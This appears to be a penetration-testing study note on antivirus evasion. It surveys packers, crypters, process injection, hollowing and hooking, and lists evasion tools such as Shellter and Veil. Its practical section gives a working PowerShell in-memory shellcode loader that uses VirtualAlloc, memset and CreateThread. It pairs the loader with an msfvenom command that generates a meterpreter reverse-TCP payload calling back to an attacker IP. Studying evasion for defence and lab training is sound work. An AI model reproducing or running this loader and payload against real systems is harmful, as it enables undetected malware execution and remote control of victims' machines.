 # AV Evasion

## On-Disk Evasion
- Packers

Packers generate an executable that is smaller than the original, and it has the same functionalities. The result file has a new signature and as a result, can effectively bypass older and more simplistic AV scanners. The use of **UPX** and other popular packers alone is not sufficient for evasion of modern AV scanners

- Obfuscators

Obfuscators reorganize and mutate code in a way that makes it more difficult to reverse-engineer. This includes replacing instructions with semantically equivalent ones, inserting irrelevant instructions or “dead code”,412 splitting or reordering functions, and so on.

- Crypters

Crypters alters the execuatble code in a cryptographic way, adding a decrypting stub that restores the original code upon execution. This decryption happens in-memory, leaving only the enctypted code on-disk. Encryption is one of the most effective AV evasion technique.

- Software protectors

Anti-reversing, anti-debugging, virtual machine emulation detection... Software protectors were designed for legitimate purposes but can also be used to bypass AV detection.
**The Enigma Protector** is a free tool for protecting our scripts.

## In-Memory Evasion
In-Memory Injections, also known as PE injection is a popular technique used to bypass AVs products. This technique focuses on the manipulation of volatile memory. One of the benefits of this technique is that does not override any files to disk, which is one of the main areas of focus for most AV products.

- Remote Process Memory Injection

This technique attemps to inject the payload into another valid PE that is not malicious. Yhe most common method of doing this is by leveraging a set of Windows APIs.
First, we would use the *OpenProcess* function to obtain a valid *HANDLE* to a target process that we have permissions to access. After obtaining the*HANDLE*, we would 
allocate memory in the context of that process by calling Windows API such as *VirtualAllocEx*. Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly
allocated memory using *WriteProcessMemory*. After the payload has been successfully copied, it is usually executed in memory in a separate thread using the *CreateRemoteThread* API.

- Reflective DLL Injection

Unlike regular DLL injection, which implies loading a malicious DLL from disk using the *LoadLibrary* API, this technique attemps to load a DLL stored by the 
atacker in the process memory.

- Process Hollowing

When using process hollowing to bypass AV software, attackers first launch a non-malicious process in a suspended state. Once launched, the image of the process is removed from
memory and replaced with a malicious executable image. Finally, the process is then resumed and malicious code is executed instead of the legitimate process.

- Inline hooking

As the name suggests, this technique involves modifying memory and introducing a hook (instructions that redirect the code execution) into a function to point the execution flow 
to out malicious code. Upon executing our malicious code, the flow will return back to the modified function and resume rexecution, appearing as if only the original code had 
executed.

## Practical Example
We will use **Avira AV** in our Windows vitmim machine.

- PowerShell In-Memory Injection
Depending on our target environment, we might be able to bypass AV products with the help of PowerShell

A very powerful feature of PowerShell is its ability to interact with the Windows API. This allows us to implement in-memory injection process in a PowerShell script. One of the main benefits of executing a script rather than PE is the fact that is not difficult for AV manufacters to determine if the script is malicious or not as it's run inside an interpreter
and the script itself isn't executable code. 

Furthermore, even if the script is marked as malicious, it can easily be altered. AV software will often look at variable names, comments, and logic, all of which can be changed
without the nedd to re-compile anything.

The script that performs in-memory injection:
```bash
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocat
ionType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = 
 Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc
[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
The script starts by importing *VirtualAlloc428* and *CreateThread429* from kernel32.dll as well as 
memset from **msvcrt.dll**. These functions will allow us to allocate memory, create an execution 
thread, and write arbitrary data to the allocated memory, respectively. Once again, notice that we 
are allocating the memory and executing a new thread in the current process (powershell.exe), 
rather than a remote one. The script then allocates a block of memory using *VirtualAlloc*, takes each byte of the payload 
stored in the *$sc* byte array, and writes it to our newly allocated memory block using *memset*. As a final step, our in-memory written 
payload is executed in a separate thread using *CreateThread*.

Missing from the script is the payload of our choice, which can be generated using **msfvenom**.
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
 ```
 
 ## Tools
 
 - shellter: It is a dynamic shellcode injection tool, and the first truly dynamic PE (portable executable) infector ever created.
 - DSplit: It splits an executable in order to detect AV Signatures. This way we can remove them and execute the file on the target machine.
 - py2exe: This tool allow us to convert a Python script into an executable.
 - Veil: It is a tool designed to generate payloads that bypass common anti-virus solutions.



